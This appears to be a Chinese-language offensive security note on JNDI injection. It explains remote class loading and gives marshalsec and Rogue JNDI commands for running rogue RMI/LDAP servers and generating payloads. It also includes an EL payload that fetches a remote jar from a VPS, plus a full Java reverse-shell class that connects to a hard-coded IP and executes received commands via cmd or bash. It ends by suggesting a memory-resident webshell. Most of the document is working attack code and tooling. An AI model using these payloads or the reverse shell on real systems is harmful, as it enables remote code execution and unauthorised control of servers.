

# JNDI 注入姿势

## 原理

当有客户端通过`lookup("refObj")`获取远程对象时，获取的是一个 Reference 存根（Stub),由于是 Reference 的存根，所以客户端会现在本地的 classpath 中去检查是否存在类 refClassName，如果不存在则去指定的 url（http://axin.com:6666/refClassName.class）动态加载，并且调用insClassName的**无参构造函数**，所以可以在构造函数里写恶意代码。当然除了在无参构造函数中写利用代码，还可以利用java的static代码块来写恶意代码，因为static代码块的代码在class文件被加载过后就会立即执行，且只执行一次。

## 工具

### 1. marshalsec

1. 简介
   可以提供 rmi 或 ldap service，可以方便的使用 jdni 注入反弹 shell, 并且可生成多种 java 反序列化 payload

2. 命令格式

```
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.<Marshaller> [-a] [-v] [-t] [<gadget_type> [<arguments...>]]
```

参数说明：

```
-a：生成exploit下的所有payload(例如：hessian下的SpringPartiallyComparableAdvisorHolder, SpringAbstractBeanFactoryPointcutAdvisor, Rome, XBean, Resin）
-t：对生成的payloads进行解码测试
-v：verbose mode, 展示生成的payloads
gadget_type：指定使用的payload
arguments - payload运行时使用的参数
marshalsec.<marshaller>：指定exploits，根目录下的java文件名
```

3. 开启 RMI 服务

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://127.0.0.1/css/#ExportObject 1099
```

4. 开启 LDAP 服务

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/css/#ExportObject 1389
```

5. 查询可用 Gadget

```
java.exe -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Jackson //以Jackson为例
```

6. 生成特定 Payload

```
java -cp target/marshalsec-0.0.1-SNAPSHOT-all.jar marshalsec.Hessian -v XBean http://127.0.0.1:8080/ExecObject
```

## 2. Rogue JNDI

rogue JNDI 工具可以突破高版本 jdk 的限制, 实现 jndi 注入. 其原理是使用服务器内部使用的不安全 ObjectFactory 进行命令执行. 例如 tomcat 的`javax.el.E​​LProcessor`类
使用方式:

```
java -jar ./target/RogueJndi-1.1.jar --command "whoami" -n 0.0.0.0
```


还可以修改源代码, 让工具远程加载 jar 包. 例如修改 Tomcat.java 的 payload 变量:


```java
    String payload = ("{" +
            "\"\".getClass().forName(\"javax.script.ScriptEngineManager\")" +
            ".newInstance().getEngineByName(\"JavaScript\")" +
            ".eval(\"new java.net.URLClassLoader['(java.net.URL[])']([new java.net.URL['(java.lang.String)'](['http://vps-ip/helloworld.jar'])])" +
            ".loadClass('hello.HelloWorld').newInstance()\")" +
            "}");
```

jar 包的内容为反弹 shell 的 java 代码:

```java
package hello;

import java.util.Locale;

public class HelloWorld implements  Runnable{

    static{
        try{
            new Thread(new HelloWorld()).start();
        }catch (Exception e){}
    }

    public static  void main(String[] args) {
        new HelloWorld();
    }

    public void run() {
        java.net.Socket sck = null;
        java.io.OutputStream out;
        java.io.BufferedReader rdr;
        Process proc;

        String cmd = "";
        String args = "120.25.0.166:8081";
        String arg[] = args.split(":");
        String os = System.getProperty("os.name").toLowerCase(Locale.ENGLISH);
        try{
            sck = new java.net.Socket(java.net.InetAddress.getByName(arg[0]), Integer.parseInt(arg[1]));
            out = sck.getOutputStream();
            rdr = new java.io.BufferedReader(new java.io.InputStreamReader(sck.getInputStream()));
            out.write("bingo, you get shell!\n".getBytes());
            while(cmd.trim().toLowerCase(Locale.ENGLISH).equals("exit") == false) {
                try{
                    out.write("> ".getBytes(), 0, "> ".getBytes().length);
                    cmd = rdr.readLine();
                    if(cmd.trim().toLowerCase(Locale.ENGLISH).equals("exit") == false){
                        if(os.contains("win")) {
                            proc = new ProcessBuilder(new String[]{"cmd","/c", cmd.trim()}).redirectErrorStream(true).start();
                        }
                        else{
                            proc = new ProcessBuilder(new String[]{"/bin/bash", "-c", cmd.trim()}).redirectErrorStream(true).start();
                        }
                        String line;
                        java.io.BufferedReader br = new java.io.BufferedReader(new java.io.InputStreamReader(proc.getInputStream()));
                        while((line = br.readLine()) != null){
                            line = line + "\n";
                            out.write(line.getBytes(), 0, line.getBytes().length);
                        }
                        br.close();
                    }

                }catch (Exception e){
                    out.write("Some exceptions happened.\n".getBytes());
                    out.write(e.getMessage().getBytes());
                }
            }
            out.write("EXIT!\n".getBytes());
            sck.close();
            out.close();
            rdr.close();
        }catch (Exception e){e.printStackTrace();}
    }
}

```

还可以写个内存马上去.
